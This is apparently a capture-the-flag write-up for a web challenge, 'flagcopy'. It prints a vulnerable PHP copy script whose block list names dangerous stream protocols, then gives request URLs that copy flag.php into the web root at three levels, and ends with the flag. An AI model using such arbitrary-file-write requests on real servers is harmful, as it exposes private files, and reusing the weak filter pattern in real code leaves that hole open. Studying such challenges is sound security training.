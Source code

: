 # flagcopy
> Jack was a self-proclaimed pirate who believed that information wanted to be free

## About the Challenge
We have been given a website that have a functionality the file called `flag.php` to new destination

![preview](images/preview.png)

If we press the `Source Code` button, we will be given a source code of `copy.php`

```php
<?php

// Make sure we have the destination filename
if(!isset($_GET['dest'])) {
    header('Content-Type: text/plain');
    header('Refresh: 2;url=..'); // Cool pirates don't use Location, docs: https://web.archive.org/web/20040811213204/http://devedge.netscape.com/library/manuals/1998/htmlguide/tags3.html
    echo "error! use: ?dest=<file>";
    exit(0);
}
$dst=$_GET['dest'];

// Prevent hackspettar
$disallow = Array(

    // Bad files
    'index.php', 'copy.php', 'flag.php',

    // Prevent traversals
    '..', './', '.\\',

    // Remove known bad characters
    '?','#','&', "\0",

    // Disallow bad protocols
    'http://','https://','ftp://','zip://','rar://','expect://','phar://','zlib://','glob://','ssh2://','ogg://',

    // TODO: Improve security
);
foreach($disallow as $word) {
    if (stripos($dst,$word) !== false) {
        echo "hacker attack detected!!1!";
        exit(0);
    }
}

// Copy the flag to it's new location
var_dump(copy('flag.php',$dst));
?>
```

So we can control the destination file

## How to Solve?
There are several levels that we need to pass in order to obtain the flag, and for these challenges, I am using the same payload for each level.

```
copy.php?dest=/var/www/html/dappppppppppppppp.txt
```

If I set `/var/www/html/dappppppppppppppp.txt`, the file called `flag.php` will be copied into `/var/www/html/dappppppppppppppp.txt`. And we need to access http://flagcopy-1.ctf.hackaplaneten.se/dappppppppppppppp.txt to check the content of `flag.php`

Repeat that steps until you obtain the flag. Here is the link of each level

* Level 1
```
http://flagcopy-1.ctf.hackaplaneten.se/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```
* Level 2
```
http://flagcopy-1.ctf.hackaplaneten.se/flag-copy-final/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```
* Level 3
```
http://flagcopy-1.ctf.hackaplaneten.se/flag-copy-final-pinky-promise-seriously/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```

![flag](images/flag.png)

```
SECFEST{@nt1p1ratByr0n_w0ulD_b3_pr0uD}
```